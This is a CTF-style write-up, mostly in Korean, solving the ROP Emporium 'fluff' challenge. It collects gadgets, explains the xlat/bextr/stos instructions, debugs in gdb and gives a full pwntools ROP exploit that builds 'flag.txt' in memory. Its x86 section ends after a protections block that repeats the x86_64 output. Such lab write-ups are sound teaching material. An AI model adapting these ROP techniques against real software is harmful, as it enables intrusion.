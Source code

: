 # [fluff](https://ropemporium.com/challenge/fluff.html)
<br />

**Description:**
> The concept here is similar to the write4 challenge, although we may struggle to find simple gadgets that will get the job done.

<br />
<br />

# x86_64

**Binary Protections:**
```yaml
fluff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2b14d9e5fb7a6bcac48b5304b5153fc679c3651c, not stripped

[*] '/home/kali/ROP/fluff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
<br />

해당 문제에서는 이전 문제에서 유용하게 사용한 `mov` 가젯을 제공하지 않습니다. 대신 `bextr` 등 생소한 가젯들을 제공하며, 제공된 가젯으로 `"flag.txt"`를 만들어 인자로 전달하면 풀리는 문제입니다.

먼저 풀이를 위해 필요한 가젯을 수집합니다.

<br />

```yaml
$ ROPgadget --binary fluff | grep rdi
0x00000000004006a3 : pop rdi ; ret
```
```yaml
$ objdump -d fluff
Disassembly of section .text:
...
0000000000400617 <usefulFunction>:
  400617:       55                      push   %rbp
  400618:       48 89 e5                mov    %rsp,%rbp
  40061b:       bf c4 06 40 00          mov    $0x4006c4,%edi
  400620:       e8 eb fe ff ff          call   400510 <print_file@plt>
  400625:       90                      nop
  400626:       5d                      pop    %rbp
  400627:       c3                      ret

0000000000400628 <questionableGadgets>:
  400628:       d7                      xlat   %ds:(%rbx)
  400629:       c3                      ret
  40062a:       5a                      pop    %rdx
  40062b:       59                      pop    %rcx
  40062c:       48 81 c1 f2 3e 00 00    add    $0x3ef2,%rcx
  400633:       c4 e2 e8 f7 d9          bextr  %rdx,%rcx,%rbx
  400638:       c3                      ret
  400639:       aa                      stos   %al,%es:(%rdi)
  40063a:       c3                      ret
  40063b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
```
- `pop rdi ; ret = 0x4006a3`
- `print_file_plt = 0x400510`
- `xlat ; ret = 0x400628`
- `pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret = 0x40062a`
- `stos ; ret = 0x400639`

<br />

> [!NOTE]
> [xlat](https://www.felixcloutier.com/x86/xlat:xlatb) 는 `[rbx + al] = al`을 수행합니다. 즉, `rbx`로부터 `al`만큼 떨어진 주소의 1바이트를 `al`에 저장합니다.
>
> [bextr](https://www.felixcloutier.com/x86/bextr) 의 형식은 `BEXTR dest, src, ctrl`이고, `dest = (src >> Start) & ((1 << Length) - 1)`를 수행합니다. `ctrl[7:0]`은 `start`, `ctrl[15:8]`은 `length`를 의미합니다. 따라서 `bextr`은 `src`를 `start`에서부터 `length`만큼 비트를 자르고 제로확장을 하여 `dest`에 저장합니다.
> ```yaml
> > bextr rbx, rcx, rdx
> rcx = 0xDEADBEEFDEADBEEF, rdx = 0x0804(start=4, len=8)
> Input : 1101111010101101101111101110111111011110101011011011111011101111 = 0xDEADBEEFDEADBEEF
>                                                             |------|
>                                                                 \
>                                                                  \
>                                                                   \
>                                                                    v
>                                                                 |------|
> Output: 0000000000000000000000000000000000000000000000000000000011101110 = 0x00000000000000EE
> ```
> [stos](https://www.felixcloutier.com/x86/stos:stosb:stosw:stosd:stosq) 는 레지스터의 값을 메모리에 저장하고, `rdi`를 자동으로 증가시키는 역할을 수행합니다. `stos` 종류에 따라 저장 단위와 증가량이 달라집니다.


<br />

```bash
$ r2 fluff
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
[0x00400520]> is
[Symbols]
nth paddr      vaddr      bind   type   size lib name                                   demangled
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
...
24  ---------- 0x00601038 LOCAL  SECT   0        .bss
...

[0x00400520]> / f
0x004003c4 hit0_0 .libfluff.so__gmon_s.
...
[0x00400520]> / l
0x00400239 hit1_0 ./lib64/ld-linux-x8.
...
[0x00400520]> / a
0x004003d6 hit2_0 .uff.so__gmon_start__print_file.
...
[0x00400520]> / g
0x004003cf hit3_0 .libfluff.so__gmon_start__prin.
...
[0x00400520]> / .
0x0040024e hit4_0 ./ld-linux-x86-64.so.2.
...
[0x00400520]> / t
0x00400192 hit5_0 .Ptd@.
...
[0x00400520]> / x
0x00400246 hit6_0 ./lib64/ld-linux-x86-64.so.2.
...
```
위에서 구한 가젯 조합으로 `bss`에 1바이트씩 문자열을 저장할 수 있습니다. 하지만 해당 바이너리에는 `"flag.txt"` 문자열이 없으므로, 문자열을 직접 구해야 합니다. 문자열 주소는 `radare2`로 쉽게 찾을 수 있습니다.
<br />

위 가젯들로 문자열 `"f"`를 추출하겠습니다.

<br />

```yaml
$ gdb fluff -q
...
pwndbg> start
...

pwndbg> x/s 0x004003c4
0x4003c4:       "fluff.so"
pwndbg> x/a 0x004003c4
0x4003c4:       0x6f732e6666756c66
pwndbg> i r $al
al             0xb                 11
pwndbg> set $rcx=0x4003c4 - 11
pwndbg> set $rdx=0x2000
pwndbg> set $rip=0x400633
pwndbg> si
...
pwndbg> set $rip=0x400628
pwndbg> si
...
pwndbg> i r $al
al             0x66                102
```
필요한 레지스터를 세팅하고 `bextr`, `xlat`를 순서대로 호출하면 `al`에 `[rcx]`의 1바이트가 저장된 것을 알 수 있습니다. 이 방법으로 `"flag.txt"`를 만들 수 있습니다.

> [!Caution]
> `xlat`은 `[rbx + al]`에 위치한 1바이트를 `al`에 저장합니다. 위 디버깅 중 레지스터를 세팅하기 전 `al`의 초기 값은 `11`임을 알 수 있습니다. 이 부분을 고려하지 않고 공격 코드를 작성하면 원하는 문자열이 만들어지지 않으므로 주의해야 합니다.

<br />
<br />

```python
from pwn import *

context.log_level = 'error'
context.bits = 64

p = process('./fluff')

def write_byte():
    al = 11  # initial al = 11
    pay = flat(pop_rdi, bss)
    for c in target:
        rcx = flag_addr[c]-al-0x3ef2
        pay += flat(bextr, 0x2000, rcx, xlat, stos)

        al = ord(c)
    return pay

bextr = 0x40062a  # pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
xlat = 0x400628
stos = 0x400639

pop_rdi = 0x4006a3
bss = 0x601038
print_file = 0x400510

flag_addr = {
  'f': 0x004003c4, 'l': 0x00400239,
  'a': 0x004003d6, 'g': 0x004003cf,
  '.': 0x0040024e, 't': 0x00400192,
  'x': 0x00400246
}

target = 'flag.txt'

pay = b'A'*40
pay += write_byte()
pay += flat(pop_rdi, bss, print_file)

p.sendline(pay)
p.interactive()
```
```bash
$ python3 test.py
fluff by ROP Emporium
x86_64

You know changing these strings means I have to rewrite my solutions...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```

<br />
<br />

# x86

**Binary Protections:**
```yaml
fluff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2b14d9e5fb7a6bcac48b5304b5153fc679c3651c, not stripped

[*] '/home/kali/pico/fluff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
<br />

